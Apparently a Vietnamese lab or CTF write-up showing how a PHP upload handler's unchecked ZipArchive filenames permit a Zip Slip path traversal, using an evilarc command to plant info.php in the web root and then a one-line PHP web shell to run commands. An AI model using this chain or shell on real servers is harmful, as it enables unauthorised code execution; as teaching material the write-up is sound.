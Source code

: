 - Đừng vội bỏ cuộc, tiếp tục đọc source code của hàm `_unzip_file_ziparchive` trong file index.php ta lại thấy thêm sự xuất hiện của 2 untrusted data đáng chú ý là `$info['name']` (dòng 44) và `$contents` (dòng 47)
- Cả 2 unstrusted data này đều không hề qua lớp kiểm tra bảo mật nào
- Vậy chuyện gì sẽ xảy ra nếu ta upload một file nén có chứa file PHP bên trong lên server?
- File info.php lúc nãy mình sẽ nén thành file `nenphp.zip`  
    Và upload lên server  
![image](https://user-images.githubusercontent.com/42104948/202159368-90ea4611-144e-40df-9540-7a73fd68fe85.png)  
  Vẫn như hành vi lúc nãy, file PHP của chúng ta không được thực thi  
![image](https://user-images.githubusercontent.com/42104948/202155281-e7a5a524-9d14-4109-baaf-f16b0235ecf4.png)  
- Dòng 52 cho thấy file info.php vẫn được giải nén vào thư mục upload  
![image](https://user-images.githubusercontent.com/42104948/202158878-503244a9-ca10-476e-8881-99e0c7886496.png)
- Ở đây ta thấy `$info['name']` nằm ở vị trí tương tự như `$file_name` ở dòng 24 nhưng có sự khác biệt:
    - `$file_name` lấy giá trị từ `$_FILES["file"]["name"]`,
    - còn `$info['name']` lấy giá trị từ object `ZipArchive()`
- Lúc nãy ý tưởng của ta bị fail do `$_FILES["file"]["name"]` đã xử lý loại bỏ phần `../../` để Path Traversal, vậy liệu `ZipArchive()` cũng hành xử như thế?
- Để kiểm chứng, mình cũng sẽ `var_dump($info['name'])`  
![image](https://user-images.githubusercontent.com/42104948/202170819-5d9ef213-9fcb-4398-a3a8-1040b5a7d52f.png)  
  Đối với file info.php trong nenphp.zip, mình thử đổi tên thành `../../info.php` một lần nữa.
- Tuy nhiên việc đổi tên cũng khó khăn hơn vì file đã được nén lại rồi. Cú pháp của gói zip có nhiều byte đặc biệt, mà chỉ cần thay đổi sai chút xíu là sẽ khiến cho `ZipArchive::CHECKCONS` trả về lỗi và ta sẽ không vượt qua được đoạn check  
![image](https://user-images.githubusercontent.com/42104948/202159024-d43413bd-82c5-43ce-9cbb-300e6979e369.png)
- Lúc này ta cần tìm cách đổi tên file bên trong một gói zip
- Để hiểu rõ hơn về cấu trúc file nén các bạn nên xem qua video [12.7% WEBSITE TRÊN THẾ GIỚI ĐÃ BỊ LỖI NÀY!](https://youtu.be/hB7BzU0iTnY) của CyberJutsu
- Cũng trong video có nhắc đến một trường hợp Path Traversal liên quan đến việc thay đổi tên file bên trong file nén, đó chính là lỗi Zip Slip
- Để exploit lỗi Zip Slip này, người ta thường dùng công cụ cho phép thay đổi tên file sao cho có chứa `../`. Một trong các công cụ nổi tiếng là [evilarc](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py)
- Sau khi download file `evilarc.py` ta thực hiện lệnh
```
python3 evilarc.py -d 2 -o unix info.php
```
- Trong đó:  
    - `-d`: độ sâu, nôm na là số lượng `../` ta muốn thêm vào tên file
    - `-o`: tạo file theo tiêu chuẩn của hệ điều hành nào
- File nén được tạo ra có tên là evil.zip
- Ta sẽ thử upload gói zip này lên server, và theo lý thuyết file info.php của chúng ta sẽ được giải nén ra ở `/var/www/html/info.php`  
![image](https://user-images.githubusercontent.com/42104948/202172449-427cdf85-96d1-4483-9437-eebd2c942049.png)
- Như vậy nếu ta truy cập vào `/info.php` trên server được nghĩa là ta đã thành công  
![image](https://user-images.githubusercontent.com/42104948/202166684-9ed142c9-598a-4075-b191-7a9773fe4413.png)
- Cuối cùng, chỉ cần thay đổi nội dung của file info.php thành `<? system($_GET['cmd']); ?>` là ta đã upload được shell lên server và có thể chạy bất kỳ lệnh nào  
![image](https://user-images.githubusercontent.com/42104948/202167191-366b8ccb-dab5-43d8-9c67-f11f6443ea75.png)
